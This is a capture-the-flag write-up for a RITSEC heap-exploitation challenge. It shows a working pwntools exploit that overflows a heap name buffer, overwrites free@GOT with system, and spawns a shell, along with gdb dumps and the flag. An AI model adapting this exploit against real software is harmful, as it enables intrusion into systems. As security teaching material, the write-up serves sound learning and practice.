


# Yet Another HR Management Framework


Inside `dist.tar.gz` we find two files:

* A binary named `pwn2`
* The libc used, `libc.so.6`

```
$ checksec pwn2 
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
    FORTIFY:  Enabled
```
```
./libc.so.6 
GNU C Library (Ubuntu GLIBC 2.23-0ubuntu10) ... <omitted>
```

### How the program works

This is a classic menu-style heap exploitation challenge.
```
$ ./pwn2 
Welcome to yet another human resources management framework!
============================================================
1. Create a new person
2. Edit a person
3. Print information about a person
4. Delete a person
5. This framework sucks, get me out of here!
Enter your choice: 1

Creating a new person...
Enter name length: 10       
Enter person's name: pacman
Enter person's age: 1337
```

When we `Edit` a person we are allowed to specify a new name length. 

After some fooling around, I could have the program crash by doing the following:

<pre>
* Create person #[0] - length=16, name="AAAA"
* Create person #[1] - length=16, name="BBBB"
* Create person #[2] - length=16, name="CCCC"
* Edit person   #[1] - length=64, name="BBBBBBBBBBBB..."`
* View person   #[2] *crash*
</pre>

Seems like we have our hands on a simple heap overflow vulnerability. The binary seems filled with many more vulnerabilities, as mentioned in <a href="https://www.pwntera.fr/write-up/2018/11/18/ritsec-pwn3.html"> this writeup by Dagger</a>.

I decided to pursue the heap overflow vulnerability. From a little experience and debugging, I guessed a `Person` object had the something in the likes of the following structure:

```
struct Person{
    char* name;
    int age;
}
```

### Static analysis - No thank you 
Reverse engineering the binary seemed immediately very frightening, since the program was written in GO:



Through the use of cross references, we can locate where `free` is called in the `deletePerson` routine(s):



Seeing this, I guessed from experience that the first `free` is called on a `Person`'s `name` pointer, and the second one is called on the actual `Person` struct.

### Debugging

I start writing my exploit script using `Python` and `pwntools` and look for the `Person`s P[0], P[1], and P[2] in the memory. 

**Note:** for this stage I temporarily disabled ASLR. It was enabled for the challenge, and bypassing it was very easy as you will see later.

```python
#!/usr/bin/python2
from pwn import *
from binascii import hexlify

def add(length, name, age):
    p.sendlineafter("choice: ", "1")
    p.sendlineafter("length: ", str(length))
    p.sendlineafter("name: ", name)
    p.sendlineafter("age: ", str(age))

def edit(index, length, name, age):
    p.sendlineafter("choice: ", "2")
    p.sendlineafter("index (0-based): ", str(index))
    p.sendlineafter("length: ", str(length))
    p.sendlineafter("name: ", name)

def view(index):
    p.sendlineafter("choice: ", "3")
    p.sendlineafter("index (0-based): ", str(index))

def remove(index):
    p.sendlineafter("choice: ", "4")
    p.sendlineafter("index (0-based): ", str(index))

with context.quiet:
    p = process('./pwn2', env = {'LD_PRELOAD': './libc.so.6'})
    add(0x10, "AAAA", 1) 
    add(0x10, "BBBB", 2) 
    add(0x10, "CCCC", 3) 
    gdb.attach(p, '''
    ''')
    p.interactive()
```
```
./exploit.py
gdb-peda$ find CCCC
Searching for 'CCCC' in: None ranges
Found 1 results, display max 1 items:
mapped : 0xf7c77240 ("CCCC\n")
gdb-peda$ x/32wx 0x81a8240 - 0x60
0x81a81e0:	0x00000000	0x00000000	0x00000000	0x00000021
0x81a81f0:	0x41414141	0x0000000a	0x00000000	0x00000000
0x81a8200:	0x00000000	0x00000000	0x00000000	0x00000021
0x81a8210:	0x42424242	0x0000000a	0x00000000	0x00000000
0x81a8220:	0x00000000	0x00000000	0x00000000	0x00000011
0x81a8230:	0x080ebb10	0x081a8240	0x00000003	0x00000021
0x81a8240:	0x43434343	0x0000000a	0x00000000	0x00000000
0x81a8250:	0x00000000	0x00000000	0x00000000	0x00020da9
```

Seeing this looks like a familiar heap, but a few things are strange. I will go through the output line by line:

<pre>
0x81a81e0:	0x00000000	0x00000000	0x00000000	0x00000021
                                                [chunk metadata,    ^size^]
0x81a81f0:	0x41414141	0x0000000a	0x00000000	0x00000000
                  ["AAAA"]          ["\n"]                
So P[0]->name points to 0x81a81f0.

0x81a8200:	0x00000000	0x00000000	0x00000000	0x00000021
0x81a8210:	0x42424242	0x0000000a	0x00000000	0x00000000
P[1]->name        ["BBBB"]          ["\n"]

0x81a8220:	0x00000000	0x00000000	0x00000000	0x00000011
Here we see a smaller chunk size (0x11) than before. Looks like the allocated P[2] struct, see below.

0x81a8230:	0x080ebb10	0x081a8240	0x00000003	0x00000021
               [printPerson]  [P[2]->name ptr]  [P[2]->age]
                   ^???

0x81a8240:	0x43434343	0x0000000a	0x00000000	0x00000000
P[2]->name        ["CCCC"]          ["\n"]

0x81a8250:	0x00000000	0x00000000	0x00000000	0x00020da9
                                               [top chunk metadata, ^size^]
</pre>

The address `0x080ebb10`,  is where the `printPerson` routine is located. I do not know why it is here. However, overflowing with `"BBBB..."` overwrites both this pointer to the `printPerson` routine and the `P[2]->name` pointer. 

Both of these overwrites could make the program crash when we afterwards attempt to call `printPerson` on `P[2]`. I show you:

```python
    edit(index=1, length=0x40, name="B"*0x40, age=2)
```
<pre>
gdb-peda$ x/32wx 0x81a8240 - 0x60
0x81a81e0:	0x00000000	0x00000000	0x00000000	0x00000021
0x81a81f0:	0x41414141	0x0000000a	0x00000000	0x00000000
0x81a8200:	0x00000000	0x00000000	0x00000000	0x00000021
0x81a8210:	0x42424242	0x42424242	0x42424242	0x42424242
...Now we are overflowing...
Below you can see that we've overwritten the pointer to printPerson, the P[2] chunk and the P[2]->name chunk.
0x81a8220:	0x42424242	0x42424242	0x42424242	0x42424242
0x81a8230:	0x42424242	0x42424242	0x42424242	0x42424242
                                    ^
                       [P[2]->name ptr should be here] 

0x81a8240:	0x42424242	0x42424242	0x42424242	0x42424242
               [P[2]->name]
0x81a8250:	0x00000000	0x00000000	0x00000000	0x00020da9 
</pre>

### Building our strategy
This binary only has Partial RELRO, meaning we can overwrite addresses in the Global Offset Table (GOT). We can overwrite the `free@GOT` entry which originally points to `free@LIBC` to instead point to `system@LIBC`.

* Remember earlier (during Static Analysis) we spotted the `deletePerson` routine calls free twice, first for a `Person`'s `name` pointer?

* If we overwrite `free@GOT` to point to `system@LIBC` then call `deletePerson` on a `Person` whose name holds `"/bin/sh"`, we will effectively call `system("/bin/sh")`!

* The address to `free@GOT` is always the same. The address to `system@LIBC` is however not, because of ASLR. 

**So how do we get the adrress to system@LIBC?**

**Easy**: The offset between `free@LIBC` and `system@LIBC` is always the same. We can overwrite P[2]->name with a ptr to `free@GOT`, and then call `printPerson` on P[2]. This will cause `free@LIBC` to be printed to us!

### Battle plan:
* Create 4 Persons:
    * `P[0]: name="AAAA"`
    * `P[1]: name="BBBB"`
    * `P[2]: name="CCCC"`
    * `P[3]: name="/bin/sh"`
* Carefully overwrite the pointer to P[2]->name with a ptr to `free@GOT`, which is located at `0x08191028`:
```
$ objdump -R pwn2 | grep 'free'
08191028 R_386_JUMP_SLOT   free@GLIBC_2.0
```
* Call `printPerson` on P[2] to leak `free@LIBC`
* Calculate the address for `system@LIBC`
* `Edit` P[2]->name which points to `free@GOT`: overwrite its pointer to `free@LIBC` with the calculated `system@LIBC`address.
* `Delete` P[3] will execute `system("/bin/sh")`!

**For further clarity**, here is what the heap looks like after exploitation, with ASLR enabled. The exploit itself is located further below.
<pre>
gdb-peda$ x/32wx 0xf7be8240 - 0x60
0xf7be81e0:	0x00000000	0x00000000	0x00000000	0x00000021
0xf7be81f0:	0x41414141	0x0000000a	0x00000000	0x00000000
0xf7be8200:	0x00000000	0x00000000	0x00000000	0x00000021
0xf7be8210:	0x42424242	0x42424242	0x42424242	0x42424242
0xf7be8220:	0x42424242	0x42424242	0x42424242	0x42424242
0xf7be8230:	0x080ebb10	0x08191028	0x0000000a	0x00000021
                                [free@GOT]
P[2]->name now points to free@GOT instead of where the string "CCCC\n" is located (0xf7be8240, below)

0xf7be8240:	0x43434343	0x0000000a	0x00000000	0x00000000
0xf7be8250:	0x00000000	0x00000000	0x00000000	0x00000011

gdb-peda$ x/wx 0x08191028
0x8191028:	0xf7da6940
gdb-peda$ print system
$1 = {&lt;text variable, no debug info&gt;} 0xf7da6940 <system>
</pre>

### Solution / Exploit
```python
#!/usr/bin/python2
from pwn import *
from binascii import hexlify

def add(length, name, age):
    p.sendlineafter("choice: ", "1")
    p.sendlineafter("length: ", str(length))
    p.sendlineafter("name: ", name)
    p.sendlineafter("age: ", str(age))

def edit(index, length, name, age):
    p.sendlineafter("choice: ", "2")
    p.sendlineafter("index (0-based): ", str(index))
    p.sendlineafter("length: ", str(length))
    p.sendlineafter("name: ", name)

def view(index):
    p.sendlineafter("choice: ", "3")
    p.sendlineafter("index (0-based): ", str(index))

def remove(index):
    p.sendlineafter("choice: ", "4")
    p.sendlineafter("index (0-based): ", str(index))


printPerson = 0x080ebb10
free_GOT    = 0x08191028
with context.quiet:
    p = process('./pwn2', env = {'LD_PRELOAD': './libc.so.6'})
    #p = remote('fun.ritsec.club', 1337)

    add(0x16, "AAAA", 1) 
    add(0x16, "BBBB", 2) 
    add(0x16, "CCCC", 3) 
    add(0x16, "/bin/sh\0", 4) 

    #Overflow and overwrite P[2]->name ("CCCC\n") with free@GOT
    edit(1, 
         0x30, 
         "B"*0x20 + p32(printPerson) + p32(free_GOT), 
         2)

    #Leak free@LIBC
    view(2)
    leak = hexlify(p.recvuntil("\nAge").split()[1][0:4])
    #Format, flip endianness etc
    free_LIBC = int("0x"+"".join(reversed([leak[i:i+2] for i in range(0, len(leak), 2)])), 16)
    print "free@LIBC: %s" % hex(free_LIBC)

    #Calculate system@LIBC
    system_LIBC = free_LIBC - 0x35e10
    print "system@LIBC: %s" % hex(system_LIBC)

    #Overwrite free@GOT's ptr to free@LIBC
    #with system@LIBC
    edit(2, 0x16, p32(system_LIBC), 3)

    gdb.attach(p, '''
            b system
            c
            ''')
    #Execute system("/bin/sh")
    remove(3)

    p.sendline("cat flag.txt")
    p.interactive()


```

### Flag
```
./exploit.py
free@LIBC: 0xf7ddf750
system@LIBC: 0xf7da9940
RITSEC{g0_1s_N0T_4lw4y5_7he_w4y_2_g0}
```
